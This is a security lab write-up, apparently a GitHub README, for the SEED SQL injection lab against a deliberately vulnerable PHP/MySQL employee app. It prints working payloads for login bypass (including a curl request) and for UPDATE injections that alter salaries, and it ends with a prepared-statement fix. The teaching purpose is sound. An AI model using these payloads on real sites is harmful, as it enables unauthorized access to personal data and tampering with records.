# SQL Injection Attack Lab

A hands-on web security lab based on the [SEED Labs SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/). The target is a deliberately vulnerable PHP "Employee Profile" web app backed by MySQL, running in Docker containers inside the SEED Ubuntu 20.04 VM.

The lab shows how unsanitized user input can be used to:

- **Bypass authentication** and log in as admin without a password
- **Leak every employee's data** (salaries, SSNs, birthdays)
- **Modify database records** — including other users' records — through an innocent-looking profile form

📄 Full report: [`SQL_Injection_Lab_Report.pdf`](SQL_Injection_Lab_Report.pdf)

---

## Contents

- [Lab Setup](#lab-setup)
- [Task 1: SQL Statements](#task-1-get-familiar-with-sql-statements)
- [Task 2: Injection on SELECT (Login Bypass)](#task-2-sql-injection-attack-on-select-statement)
- [Task 3: Injection on UPDATE (Data Tampering)](#task-3-sql-injection-attack-on-update-statement)
- [Countermeasure](#countermeasure)

---

## Lab Setup

Download the lab files, build the Docker images, and start the containers:

```bash
wget --no-check-certificate https://seedsecuritylabs.org/Labs_20.04/Files/Web_SQL_Injection/Labsetup.zip
unzip Labsetup.zip
cd Labsetup
dcbuild     # build the web (Apache/PHP) and MySQL images
dcup        # start www-10.9.0.5 and mysql-10.9.0.6
```

Then map the site name to the web container:

```bash
dockps
echo "10.9.0.5 www.seed-server.com" | sudo tee -a /etc/hosts
```

| Download & unzip | Build images |
|---|---|
|  |  |

| Start containers | Containers running + hosts entry |
|---|---|
|  |  |

---

## Task 1: Get Familiar with SQL Statements

Open a shell in the MySQL container and log in:

```bash
docksh <mysql-container-id>
mysql -u root -pdees
```

### 1.1 SHOW

```sql
SHOW DATABASES;
USE sqllab_users;
SHOW TABLES;
```

The lab database `sqllab_users` has a single table, `credential`, which stores all employee data.



### 1.2 SELECT specific fields

```sql
SELECT Name, EID, Salary FROM credential;
```



### 1.3 UPDATE

```sql
UPDATE credential SET Salary=99000 WHERE Name='Ryan';
SELECT Name, Salary FROM credential WHERE Name='Ryan';
```



---

## Task 2: SQL Injection Attack on SELECT Statement

The login page (`unsafe_home.php`) builds its query by concatenating user input directly:

```php
SELECT ... FROM credential
WHERE name='$input_uname' AND Password='$hashed_pwd'
```

A single quote `'` closes the string early, and `#` comments out the rest of the query — including the password check.

### 2.1 Login as Admin from the web page

**Username:** `admin'#` — **Password:** *(empty)*

The query becomes:

```sql
... WHERE name='admin'#' AND Password='...'
```

| Payload | Result: logged in as Admin, all employees exposed |
|---|---|
|  |  |

### 2.2 Same attack from the command line

```bash
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='
```

`%27` is the URL-encoded `'` and `%23` is `#`. The returned HTML contains the full employee table.

| curl request | HTML response with employee data |
|---|---|
|  |  |

---

## Task 3: SQL Injection Attack on UPDATE Statement

The Edit Profile backend (`unsafe_edit_backend.php`) runs:

```php
UPDATE credential
SET nickname='$input_nick', email='$input_email', ...
WHERE ID=$id
```

Injecting into the **NickName** field lets an attacker add extra columns to `SET` or rewrite the `WHERE` clause. First, log in as Alice with `Alice'#`.

### 3.1 Alice raises her own salary

**NickName:**

```
', salary=120000 WHERE name='Alice' #
```

Resulting query:

```sql
UPDATE credential SET nickname='', salary=120000 WHERE name='Alice' #', email=...
```

| Login as Alice | Before (salary 20000) |
|---|---|
|  |  |

| Injection in NickName | After (salary 120000) |
|---|---|
|  |  |

### 3.2 Alice sets Boby's salary to 1

While still logged in as Alice:

```
', salary=1 WHERE name='Boby' #
```

Logging in as `Boby'#` confirms the change — a user can tamper with **other users'** data.

| Injection targeting Boby | Verify as Boby | Boby's salary is now 1 |
|---|---|---|
|  |  |  |

---

## Countermeasure

The root cause is mixing code and data: user input is pasted straight into the SQL string. The fix is **prepared statements** (parameterized queries), which send the query structure and the data to the database separately so input can never change the query's logic:

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
                        FROM credential WHERE name = ? AND Password = ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
```

---

## Tools

`SEED Ubuntu 20.04 VM` · `Docker` · `Apache / PHP` · `MySQL 8.0` · `Firefox` · `curl`

> ⚠️ For educational purposes only. All attacks were performed against an isolated, intentionally vulnerable lab environment.
